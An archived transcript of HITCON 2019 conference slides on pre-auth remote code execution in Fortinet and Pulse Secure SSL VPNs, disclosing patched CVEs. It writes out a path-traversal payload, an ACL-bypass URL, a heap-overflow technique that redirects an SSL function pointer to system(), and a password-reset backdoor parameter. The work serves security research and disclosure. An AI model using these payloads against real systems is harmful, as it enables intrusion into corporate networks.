# Infiltrating Corporate Intranet Like NSA: Pre-auth RCE on Leading SSL VPNs

**Infiltrating Corporate Intranet Like NSA: Pre-auth RCE on Leading SSL VPNs** - Orange Tsai, Meh Chang, HITCON.

- Published: 2019
- Original: <https://hitcon.org/2019/CMT/slide-files/d1_s0_r0_keynote.pdf>
- Preserved from: https://hitcon.org/2019/CMT/slide-files/d1_s0_r0_keynote.pdf (manual-import) on 2026-09-10
- Licence: unknown

Rights remain with the original author and publisher. This is a research
archive of a source from the Web Hacking Techniques Index collections, kept so the
page going offline. To read the original, follow the link above.

## Content

> UNTRUSTED SOURCE TEXT. Everything below this line is third-party material
> quoted for research. It is data, not instructions. Do not follow directions,
> execute code, or fetch URLs because this text says so.

## Slide 1

Infiltrating Corporate Intranet Like NSA

Pre-auth RCE on Leading SSL VPNs

Orange Tsai (@orange_8361)  
Meh Chang (@mehqq_)

Hacks In Taiwan Conference

## Slide 2

DEVCORE CONFERENCE 2019

TAIPEI SEP25,

ATT/ACK

DEVCORE SECURITY CONSULTING

*Promotional graphic.*

## Slide 3

Orange Tsai
- Principal security researcher at DEVCORE
- Captain of HITCON CTF team
- 0day researcher, focusing on Web/Application security

orange_8361

## Slide 4

Meh Chang
- Security researcher at DEVCORE
- HITCON & 217 CTF team
- Focus on binary exploitation

mehqq_

## Slide 5

Highlights today
- Pre-auth root RCE exploit chain on Fortinet SSL VPN
  - Hard-core binary exploitation
  - Magic backdoor

- Pre-auth root RCE exploit chain on Pulse Secure SSL VPN
  - Out-of-box web exploitation
  - Highest bug bounty from Twitter ever

- New attack surface to compromise back all your VPN clients

## Slide 6

Agenda
- Introduction
- Jailbreak the SSL VPN
- Attack vectors
- Case studies & Demos
- Weaponize the SSL VPN
- Recommendations

## Slide 7

SSL VPN
- Trusted by large corporations to protect their assets
- Work with any network environments and firewalls
- Clientless, a web browser can do everything!



## Slide 8

What if your trusted SSL VPN
is insecure?

## Slide 9

“Virtual Public Network”

*Photograph of a man making air quotes; the lower caption reads “"Public"”.*

## Slide 10

Why focusing on SSL VPN

1. Important corporate assets but a blind-spot
2. Widely used by corporations of all sizes
3. Only few SSL VPN vendors dominate the market
4. Direct Intranet access and must be exposed to outside

## Slide 11

Even NSA is hunting bugs on
SSL VPN
Think about Equation Group leaks

## Slide 12

*Browser screenshot: Facebook sign-in portal; address pixelated in the source.*

Secure Logon for Facebook Tableau

Username · Password · Logon

## Slide 13

*Browser screenshot: address pixelated in the source.*

Welcome to the **Twitter VPN Access Portal**

username · password · Realm: **TWO FACTOR FULL TUNNEL** · Sign In

Please sign in to begin your secure session.

## Slide 14

*Browser screenshot: MARVEL login portal, with superhero artwork and an authorized-use notice. The address is pixelated in the source.*

Submit · Restart Login

## Slide 15

*Browser screenshot: Cisco SSL VPN Service login, mostly overlaid by the seal reading “NATIONAL SECURITY AGENCY / UNITED STATES OF AMERICA”. The address is pixelated in the source.*

## Slide 16

They are usually forgotten

*Shrugging figure.*

## Slide 17

A silent-fix case

- We accidentally found a pre-auth RCE on Palo Alto SSL VPN during our Red Team assessment
- A silent fixed 1-day:
  - No CVE
  - No advisory
  - No official announcement

## Slide 18

Hacking Uber as showcase

*Browser screenshot; the subdomain is pixelated in the source.*

```text
https://[pixelated].uberinternal.com/hacked.txt
```

Hacked by Orange Tsai and Meh Chang from DEVCORE research team

## Slide 19

Response from Palo Alto PSIRT

> Palo Alto Networks does follow coordinated vulnerability disclosure for security vulnerabilities that are reported to us by external researchers. We do not CVE items found internally and fixed. This issue was previously fixed, but if you find something in a current version, please let us know.

## Slide 20

*Comic: a dog sits in a burning room and says “THIS IS FINE.”*

## Slide 21

High severity CVE statistics

| Vendor | CVEs |
| --- | ---: |
| Cisco | 159 |
| F5 | 50 |
| Palo Alto | 26 |
| Citrix | 17 |
| Fortinet | 13 |
| Pulse Secure | 6 |

Source shown: https://nvd.nist.gov

## Slide 22

We focus on…
- Pulse Secure SSL VPN
  - More than 50,000+ servers operating on the Internet
  - Trusted by large corporations, service providers and government entities

- Fortigate SSL VPN
  - More than 480,000+ servers operating on the Internet
  - Prevalent among medium-sized enterprises

## Slide 23

Let's start hacking

## Slide 24

Difficulties for kick-starting

- SSL VPN is a black box and closed source appliance
- All-in-one & Build their own architecture stacks from scratch
- Only restricted shell provided
  - Jailbreak is the prerequisite for further researches

## Slide 25

*Three overlapping virtual-appliance console screenshots. Licensing identifiers are pixelated in the source.*

Pulse Secure: **9.0R1 (build 63949)**

```text
1. Network Settings and Tools
2. Create admin username and password
3. Display log/status
4. System Operations
5. Toggle password protection for the console
6. Create a Super Admin session.
7. System Maintenance
8. Reset allowed encryption strength for SSL
Choice:
```

Citrix: **NSVPX-ESX-11.1-47.14_nc**, login `nsroot`:

```text
> ls
ERROR: No such command
>
```

Palo Alto: **PA-VM-ESX-8.1.2**, login `admin`:

```text
admin@PA-VM> ls
Invalid syntax.
admin@PA-VM> tail
```

Visible completion options: `+ follow`, `+ lines`, `agent-log`, `appweb-log`, `mp-log`, `webserver-log`.

## Slide 26

Jailbreak the SSL VPN

- We are not hardware guys :(
  - So we look into the virtual image first

- Analyzing virtual images
1. Typical virtual images
2. Encrypted virtual images

## Slide 27

Typical virtual images

- If there is no LILO or GRUB password protected, we can just enter the Single-User mode
- Mount the .VMDK on your Linux box and modify the filesystem
  - /etc/crontab
  - /etc/ld.so.conf
  - /etc/passwd
  - Many ways…

## Slide 28

What if the disk has been
encrypted?

## Slide 29

Encrypted virtual images



- vmlinuz kernel
  - Level - Hard
  - Reverse engineering for the win!
- /sbin/init
  - Level - Easy
  - Memory forensics for the win!

## Slide 30

The booting process



*The Enter key is drawn between `/sbin/init` and the final item; the source does not draw an arrow between these items.*

*Dashed annotation associates `/sbin/init` with the startup console, highlighting its final line:*

```text
Starting system software version 9.0R1 (build 63949)
Using driver: vmxnet3
.Loading vmmemctl
......
Licensing Hardware ID: [pixelated]
About to boot as a stand-alone Pulse Connect Secure.
Hit TAB for clustering options, wait or hit Enter to continue.....
Starting Core Services
Device Administration: https://<DEVICE-IP-ADDR>:<DEVICE-DNS-NAME>/admin
Press <Enter> to view or update your appliance settings.
```

## Slide 31

The booting process


*The Enter key is drawn between `/sbin/init` and the final item; the source does not draw an arrow between these items.*

*Dashed annotation associates the question marks with the console menu:*

```text
1. Network Settings and Tools
2. Create admin username and password
3. Display log/status
4. System Operations
5. Toggle password protection for the console (Off)
6. Create a Super Admin session.
7. System Maintenance
8. Reset allowed encryption strength for SSL
Choice:
```

## Slide 32

Find the vital point



*The Enter key is drawn between `/sbin/init` and the final item; the source does not draw an arrow between these items.*

*The startup console remains dimly visible behind the boot diagram.*

## Slide 33

In-memory patch


*The Enter key is drawn between `/sbin/init` and the final item; the source does not draw an arrow between these items.*

## Slide 34

Once we press the Enter…



*The Enter key is drawn between `/sbin/init` and the final item; the source does not draw an arrow between these items.*

*Dashed annotation associates `///////////////bin/sh` with the shell console:*

```text
sh-4.1# uname -a
Linux localhost2 2.6.32-00170-g6d78046-dirty #1 SMP Wed Apr 18 19:04:27 PDT 2018 x86_64 x86_64 x86_64 GNU/Linux
sh-4.1#
```

## Slide 35

Digging at a correct place

*Photograph of a fox sniffing at a bed, with a gifs.com watermark.*

## Slide 36

Attack vectors

- WebVPN
- Native script language extensions
- Multi-layered architecture problems

## Slide 37

WebVPN

- A convenient proxy feature – Portable & Clientless
- Proxy all kinds of traffics through the web browser
  - Supports various protocols
    - HTTP, FTP, TELNET, SSH, SMB, RDP …

  - Handles various web resources
    - WebSocket, JavaScript, Flash, Java Applet …

## Slide 38

WebVPN implementation

- Build from scratch
  - Protocols, web resources handling are prone to memory bugs
  - Requires high security awareness
    - Debug function
    - Logging sensitive data
    - Information exposed

## Slide 39

WebVPN implementation

- Modify from an open source project
  - Copy the code, copy the bugs
  - Hard to maintain & update & patch

- Call existing libraries
  - Neglect to update
    - Libcurl (2008), Libxml (2009)

## Slide 40

Native script language extensions

- Most SSL VPNs have their own native script language extensions
  - En/Decoding in C/C++
  - Type confusion between languages

| Vendor | Web Stack |
| --- | --- |
| F5 Networks | PHP / C (Apache extension) |
| Cisco | Lua / C (self-implemented server) |
| Pulse Secure | Perl / C++ (self-implemented server) |
| Fortigate | Nginx / C (Apache extension) |
| Palo Alto | PHP / C (AppWeb extension) |
| Citrix | PHP / C (self-implemented server) |

## Slide 41

En/Decoding in C/C++

- String operation is always difficult for C language
  - Buffer size calculation
  - Dangerous functions
  - Misunderstood functions

```c
ret = snprintf(buf, buf_size, format, …);
left_buf_size = buf_size - ret;
```

## Slide 42

Type confusion

- Type seems the same but …
- Perl string or C string?
- What TYPE is it?

```perl
my ($var) = @_;
EXTENSION::C_function($var);
```

## Slide 43

*Doge picture captioned “WHO KNOWS?”*

## Slide 44

Multi-layered architecture
problems
- Inconsistency between each architecture layer
- Failed patterns
  - Reverse proxy + Java web = Fail
    - Breaking Parser Logic by Orange Tsai from Black Hat USA 2018

  - Customized(C/C++) web server + RESTful API backend

## Slide 45

Failed Patterns

- ACL bypass on customized C webserver + RESTful backend
  - Abuse Regular Expression greedy mode to bypass path check

```regex
^/public/images/.+/(front|background)_.+
```

- Dispatched to backend PHP engine and access privileged pages

```text
https://sslvpn/public/images/x/front_x/../../../../some.php
```

*The suffix `x/../../../../some.php` is highlighted.*

## Slide 46

Case studies
Pre-auth remote code execution on Fortigate SSL VPN
Pre-auth remote code execution on Pulse Secure SSL VPN

## Slide 47

Disclaimer
All the CVEs mentioned below have been reported and patched
by Fortinet, Pulse Secure and Twitter

## Slide 48

Fortigate SSL VPN

- All programs and configurations compiled into `/bin/init`
  - About 500 MB, stripped idb with 85k functions
  - Plenty of function tables

- Customized web daemons
  - Based on apache since 2002
  - Self-implemented apache module

*Terminal screenshot:*

```text
bash-4.1# ls -l /bin
total 51388
lrwxrwxrwx 1 0 0 9 Jun 5 23:42 acd -> /bin/init
lrwxrwxrwx 1 0 0 9 Jun 5 23:42 alarmd -> /bin/init
lrwxrwxrwx 1 0 0 9 Jun 5 23:42 alertmail -> /bin/init
lrwxrwxrwx 1 0 0 9 Jun 5 23:42 authd -> /bin/init
lrwxrwxrwx 1 0 0 9 Jun 5 23:42 awsd -> /bin/init
lrwxrwxrwx 1 0 0 9 Jun 5 23:42 azd -> /bin/init
lrwxrwxrwx 1 0 0 9 Jun 5 23:42 bgpd -> /bin/init
lrwxrwxrwx 1 0 0 9 Jun 5 23:42 cardctl -> /bin/init
lrwxrwxrwx 1 0 0 9 Jun 5 23:42 cardmgr -> /bin/init
lrwxrwxrwx 1 0 0 9 Jun 5 23:42 chat -> /bin/init
lrwxrwxrwx 1 0 0 9 Jun 5 23:42 chlbd -> /bin/init
```

## Slide 49

Fortigate web interface

*Fortigate browser screenshot, marked “Not Secure”:*

```text
https://sslvpn:4433/remote/login?lang=en
```

Please Login · Name · Password · Login

## Slide 50

Worth mentioning bugs

- Pre-auth RCE chain
  - CVE-2018-13379: Pre-auth arbitrary file reading
  - CVE-2018-13382: Post-auth heap overflow

- The magic backdoor
  - CVE-2018-13383: Modify any user’s password with a magic key

## Slide 51

Arbitrary file reading

- A function reading language json files for users
  - Concatenate strings directly
  - No `../` filter
  - Limited file extension

```c
snprintf(s, 0x40, "/migadmin/lang/%s.json", lang);
```

## Slide 52

Arbitrary file reading

  - Utilize the feature of snprintf
    - The snprintf() and vsnprintf() functions will write at most size-1 of the characters printed into the output string
    - Appended file extension can be stripped!

```text
/migadmin/lang//../../../..//////////////////////////////bin/sh.json
```

*The `.json` suffix is crossed out; a brace labeled `0x40` runs under the preceding path.*

## Slide 53

An SSL VPN mystery
Appears in many products …

## Slide 54

Excessively detailed session file

- /dev/cmdb/sslvpn_websession
  - Session token
  - IP address
  - User name
  - Plaintext password

## Slide 55

*Collage of news headlines:*

- “GOOGLE HAS STORED SOME PASSWORDS IN PLAINTEXT SINCE 2005” — Lily Hay Newman, Security, 05.21.19 05:14 PM.
- “Facebook Stored Hundreds of Millions of User Passwords in Plain Text for Years” — 21 MAR 19.
- “Twitter advising all 330 million users to change passwords after bug exposed them in plain text”.

## Slide 56

WebVPN

*Fortigate portal screenshot:*

```text
https://sslvpn:4433/sslvpn/portal.html#/connection
```

Quick Connection: HTTP/HTTPS (selected), FTP, SMB/CIFS, RDP, VNC, Citrix, SSH, Telnet, Port Forward, Ping. URL: `devco.re`; SSO Credentials: off; Launch / Cancel. The portal shows user `meh`, elapsed time `00:02:20`, and `0 B` transferred in each direction.

## Slide 57

WebVPN – HTTP/HTTPS

*DEVCORE website shown through Fortigate WebVPN. An annotation arrow enlarges the proxy URL:*

```text
https://sslvpn:4433/proxy/72ebc8b8/https/devco.re/
```

The browser address ends in `/en/`. The site reads “You are facing hackers. So are we.” and “DEVCORE offers genuine pentesting, red teaming, consulting, training. Keep your business value intact.”

## Slide 58

WebVPN – HTTP/HTTPS

*The same proxied DEVCORE website with developer tools open. Selected image element:*

```html

```

The surrounding picture has class `billboard__image`; its source for `(min-width: 900px)` uses `cover-desktop.jpg`.

## Slide 59

Heap overflow vulnerability

- HTTP proxy
  - Perform URL rewriting
  - JavaScript parsing
  - memcpy to a 0x2000 heap buffer without length check

```c
memcpy(buffer, js_url, js_url_len);
```

## Slide 60

Exploitation obstacles

- Unstable heap
  - Multiple connection handling with epoll()
  - Main process and libraries use the same heap – Jemalloc
  - Regularly triggered internal operations unrelated to connection

- Apache additional memory management
  - No free() unless connection ends

## Slide 61

Surprise!

```text
Program received signal SIGSEGV, Segmentation fault.
0x00007fb908d12a77 in SSL_do_handshake () from /fortidev4-x86_64/lib/libssl.so.1.1
2: /x $rax = 0x41414141
1: x/i $pc
=> 0x7fb908d12a77 <SSL_do_handshake+23>: callq *0x60(%rax)
(gdb)
```

## Slide 62

*Distracted-boyfriend meme: the man is labeled “ME”, the woman he looks at “FUZZ”, and the woman beside him “Reverse”.*

## Slide 63

SSL structure (OpenSSL)

- Stores information of each SSL connection
- Ideal target
  - ✓ Allocation triggered easily
  - ✓ Size close to JavaScript buffer
  - ✓ Nearby JavaScript buffer with regular offset (k + N pages)
  - ✓ Useful structure members

## Slide 64

Useful structure members

```c
typedef struct ssl_st SSL;
struct ssl_st {
     int version;
     const SSL_METHOD *method;        //func table
     …
     int (*handshake_func) (SSL *);
};
```

## Slide 65

Mess up connections

- Overflow SSL structure
  - Establish massive connections
    - Lots of normal requests
    - One overflow request

Massive connections



## Slide 66

Exploit between connections



*The three SSL allocations have gaps between them; the connecting lines associate each allocation with its connection.*

## Slide 67

Original SSL structure



*The first SSL allocation is expanded above the heap; its `*handshake_func` field carries the pointer arrow. Heap blocks are separated by gaps.*

## Slide 68

Trigger JavaScript Parsing



*The first SSL allocation is expanded above the heap; its `*handshake_func` field carries the pointer arrow. Heap blocks are separated by gaps.*

## Slide 69

Overflow SSL structure



*The first SSL allocation is expanded above the heap; its `*handshake_func` field carries the pointer arrow. Heap blocks are separated by gaps.*

*Large rows of `A` characters overlay the heap figure.*

```c
memcpy(buffer, js_url, js_url_len);
```

## Slide 70

From SEGFAULT to RCE



*The first SSL allocation is expanded above the heap; its `*handshake_func` field carries the pointer arrow. Heap blocks are separated by gaps.*

*The overwrite region extends from the JS buffer through the first SSL allocation. Its expanded contents are replaced by `A` characters, and an orange X crosses the pointer to `ssl_accept()`.*

## Slide 71

Forge SSL structure



*The first SSL allocation is expanded above the heap; its `*handshake_func` field carries the pointer arrow. Heap blocks are separated by gaps.*

*The orange replacement structure restores the labeled fields and points `*handshake_func` to `system()`.*

## Slide 72

Enjoy your shell!

- Send fuzzy connections to meet the condition
  - Daemon may crash multiple times
  - Fortigate owns a reliable watchdog!

- Get a shell in 1~2 minutes

## Slide 73

Make your life easier
Find another Door to get in

## Slide 74

MAGIC backdoor

- A “magic” parameter
  - Secret key for reset password
  - Designed for updating outdated password
    - but lack of authentication

*Code screenshot; the key between its first and last characters is pixelated in the source:*

```c
magic = httpd_get_param(params, "magic");
if (magic && !strcmp(magic, "4[pixelated]6"))
```

## Slide 75

Demo
Pop a root shell from the only exposed HTTPS port

## Slide 76

Demo
https://youtu.be/Aw55HqZW4x0

## Slide 77

Pulse Secure SSL VPN

- Pulse Secure was formed a divestiture of Juniper Networks
- Customized web server and architecture stack
- Perl enthusiast - numerous Perl extensions in C++
- LD_PRELOAD all processes with:
  - libsafe.so - Detect and protect against stack smashing attacks
  - libpreload.so - User-mode networking system call hooks

## Slide 78

Vulnerabilities we found
- CVE-2019-11510 - Pre-auth arbitrary file reading
- CVE-2019-11538 - Post-auth NFS arbitrary file reading
- CVE-2019-11508 - Post-auth NFS arbitrary file writing
- CVE-2019-11542 - Post-auth stack buffer overflow
- CVE-2019-11539 - Post-auth command injection
- CVE-2019-11540 - XSSI session hijacking
- CVE-2019-11507 - Cross-site scripting

## Slide 79

Arbitrary file reading

- CVE-2019-11510 – Webserver-level pre-auth file reading
  - Pulse Secure has introduced a new feature HTML5 Access since SSL VPN version 8.2
    - A new solution to access Telnet, SSH and RDP via browsers

